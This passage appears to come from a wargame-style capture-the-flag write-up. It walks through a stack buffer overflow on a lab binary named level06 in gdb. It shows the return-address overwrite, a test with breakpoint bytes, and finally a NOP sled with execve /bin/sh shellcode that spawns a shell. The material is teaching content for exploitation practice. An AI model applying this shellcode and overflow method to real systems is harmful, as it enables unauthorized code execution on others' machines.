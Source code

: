 Now we know that the last 4 Cs overwrite the return address. Let's replace them with "\xb4\xfb\xff\xbf" (0xbffffbb4 on the stack) and see if we hit 0x41414141.
```
(gdb) run $(python -c 'print "A"*40') $(python -c 'print "B"*24 + "C\xb4\xfb\xff\xbfDDDD"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /levels/level06 $(python -c 'print "A"*40') $(python -c 'print "B"*24 + "C\xb4\xfb\xff\xbfDDDD"')
Willkommen AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBC????DDD

Program received signal SIGILL, Illegal instruction.
0xbffffbf3 in ?? ()
(gdb) x/20xw $esp
0xbffffbb0: 0x00444444  0x41414141  0x41414141  0x41414141
0xbffffbc0: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffbd0: 0x41414141  0x41414141  0x42424242  0x42424242
0xbffffbe0: 0x42424242  0x42424242  0x42424242  0x42424242
0xbffffbf0: 0xfffbb443  0x444444bf  0x00000000  0x00000001
(gdb) si

Program terminated with signal SIGILL, Illegal instruction.
The program no longer exists.
```

Let's replace those first few As with some SIGTRAPs (0xcc) and see if we hit those.
```
(gdb) run $(python -c 'print "\xcc"*12 + "A"*28') $(python -c 'print "B"*24 + "C\xb4\xfb\xff\xbfDDDD"')
Starting program: /levels/level06 $(python -c 'print "\xcc"*12 + "A"*28') $(python -c 'print "B"*24 + "C\xb4\xfb\xff\xbfDDDD"')
Willkommen ????????????AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBC????DDD

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffffbb5 in ?? ()
```

That looks better! Let's make the first few As NOPs (0x90) and add our shellcode onto the end of that.
```
(gdb) run $(python -c 'print "\x90"*16 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80A"') $(python -c 'print "B"*24 + "C\xb4\xfb\xff\xbfDDDD"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /levels/level06 $(python -c 'print "\x90"*16 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80A"') $(python -c 'print "B"*24 + "C\xb4\xfb\xff\xbfDDDD"')
Willkommen ????????????????1?Ph//shh/bin??PS??
                                              ̀ABBBBBBBBBBBBBBBBBBBBBBBBC????DDD
process 17463 is executing new program: /bin/bash
sh-4.2$
```
